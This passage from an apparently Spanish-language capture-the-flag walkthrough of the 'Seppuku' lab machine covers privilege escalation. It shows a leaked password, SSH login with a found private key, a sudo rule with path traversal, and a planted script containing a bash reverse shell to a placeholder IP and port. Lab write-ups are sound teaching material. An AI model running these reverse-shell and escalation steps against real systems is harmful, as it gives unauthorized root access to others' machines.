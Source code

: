 Yo en mi caso al ver eso hice lo siguiente, lo cual mas adelante no me sirve de mucho pero si para escalar de otras formas...

```shell
sudo ln -sf /root/ /tmp/
```

Con eso creas un enlace directo a la carpeta entera de `root`

Despues si en la misma `home` leemos un archivo llamado `.passwd` pondria lo siguiente...

```
12345685213456!@!@A
```

Esa es una contraseña del usuario `samurai` y para entrar al usuario `tanto` se tiene que utilizar la `id_rsa` que encontramos anteriormente...

> Tanto

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa tanto@<IP>
```

Y ya estariamos dentro de `tanto` dentro de este usuario crearemos las siguientes carpetas y archivos para luego ejecutarlos con `samurai`...

```shell
mkdir .cgi_bin
```

Dentro de la misma...

```shell
nano bin

#Dentro de nano
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y ahora llendonos al usuario samurai en `/tmp/` creamos un archivo sin funcionalidad...

```shell
nano script.sh

#Dentro de nano
#!/bin/bash

echo 'HOLA'
```

Por que si hacemos `sudo -l` en ese usuario veremos los siguiente...

```
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```
